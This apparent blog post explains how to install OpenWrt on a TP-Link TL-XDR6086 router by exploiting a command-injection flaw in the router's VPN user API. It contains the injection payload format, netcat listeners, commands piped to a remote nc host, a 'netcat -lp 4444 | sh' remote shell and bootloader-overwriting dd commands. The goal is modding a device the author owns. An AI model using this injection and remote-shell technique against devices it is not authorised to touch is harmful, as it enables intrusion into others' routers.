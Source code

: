 ```yaml
---
title: 'Install Openwrt in TP-Link TL-XDR6086'
description: 'use shell injection to flash Openwrt into TL-XDR6086'
pubDate: 'Aug 29 2024'
tags:
  - Router
  - OpenWrt
updatedDate: 'Nov 14 2024'
heroImage: 'https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/727ee92c-717e-4d32-b8f2-98b9865c8300/small'
---
```


I thought I should buy a router before I would move to japan. 

For

1. OpenWrt Installable: I love openwrt, because of providing many unique functions like global transparent proxy.
2. Internal Antenna: Takes up less space and is neater.
3. 2.5 Gbps Cable Interface
4. Strong CPU: for OpenWrt and 2.5 Gbps bandwidth

I found TP-Link TL-XDR6086 in OpenWrt device list and bought one.

You can find the [tutorial](https://openwrt.org/toh/tp-link/xdr-6086) easily in OpenWrt website.

## Common knowledge you must know

It should be considered unusual that you can replace your router's operating system. Similar to gaining root access on an Android phone, this involves obtaining permissions that manufacturers intentionally restrict, typically through exploiting system vulnerabilities.

If you do what I did but in your case your router can never boot again, not my fault. It works on my machine.

You **should** search the device information in [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086), **not** Baidu, yahoo or other random somewhere.

You might need to download [built packages](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) from OpenWrt source, to avoid compile them manually.

I assume you know how to use Linux (or MacOS, freeBSD). If you only use Windows, get outta here.

## How the vulnerability works

When you call `http://192.168.1.1/stok=${STOK}/ds` to create a VPN user, there is a slot you can inject the shell command.

> After entering the admin page, use F12 to find the fetch requests, then you can get `${STOk}`.

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; INJECT YOUR SHELL COMMAND HERE&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> For example, if you want to execute `echo 'fuck'`, `username` should be `;echo 'fuck'&`

Now, the shell command is stored in database. The trigger is when you delete this VPN user.

## Replace with OpenWrt

First, prepare a USB media. 

> By the way, based on what I've observed in Chinese forums, where many experienced users are skilled at bypassing CCP monitoring through VPNs, the most popular solution in Chinese OpenWrt community is to set up a TFTP server on a PC and configure the router to download everything from it.
>
> This is too troubling. For windows users, they even suggest them to install WSL then operate like a linux user.
>
> I think this is because many of them shares the solution without fully understanding why that works.

Download [`natcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) into USB media. You'd better format it with FAT32, and rename the package into `netcat.ipk`.

### Mount USB media and prepare reflect shell

Run the following commands through the vulnerability I mentioned before.

```sh
mkdir /tmp/usb
```

Listen with netcat in your PC to receive the output from the injected shell.

```sh
nc -l -p 4444
```

> netcat is a network testing tool, also is widely used for reflect shell.
>
> Listen on your PC with netcat, and pipe the output of injected shell into `nc` in router, then you can get the output in your PC.
>
> If netcat is installed in the router, is is possible to listen with netcat on router from PC. By piping the message from pc, you can run the command from your PC.

For example, you can use this command to check if the creation is successful. Replace `192.168.1.100` with your PC's address.

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

If succeed, mount the USB media. 

Attention that if you have plugged out the media, the number will increase, like `sda2` `sda3`, when you plug in. The number will recover to 1 after you reboot the device.

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> use `ls /dev | nc 192.168.1.100 4444` to find the name of USB media.

Check whether mounting is successful

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

Then, install natcat

```sh
opkg install /tmp/usb/netcat.ipk
```

Now, it is more convenient to run the shell command by netcat.

```sh
netcat -lp 4444 | sh
```

### Backup

backup to usb media:

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### Install U-Boot

**CAUTION: DANGEROUS OPERATION! Ensure acknowledging what and why you are doing!**

According to [this GitHub issue](https://github.com/hanwckf/immortalwrt-mt798x/issues/207), you can compile the u-boot from [the source code for bl-mt98x](https://github.com/hanwckf/bl-mt798x). *Of course you can also download form others*.

Execute these two commands *in order*. You must ensure the first one is successful then you can run the second one. Maybe the filename is different, the key is bl2 first then fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> use `2>&1 |` to receive the error

Set ip address in PC as `192.168.1.100/24`, the default gateway as `198.168.1.1`.

Cut off the power of router, then power up. If going well, the LED should blinks with red. Open <http://192.168.1.1> in browser and you can see the u-boot web ui.

![u-boot web ui](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### Install OpenWrt

As of August 29, 2024, XDR-6086 is not fully supported by OpenWrt. It is quite difficult to find OpenWrt firmware that is compatible with XDR-6086.

I find compatible one in a Chinese forum called En Shan Forum (恩山论坛).

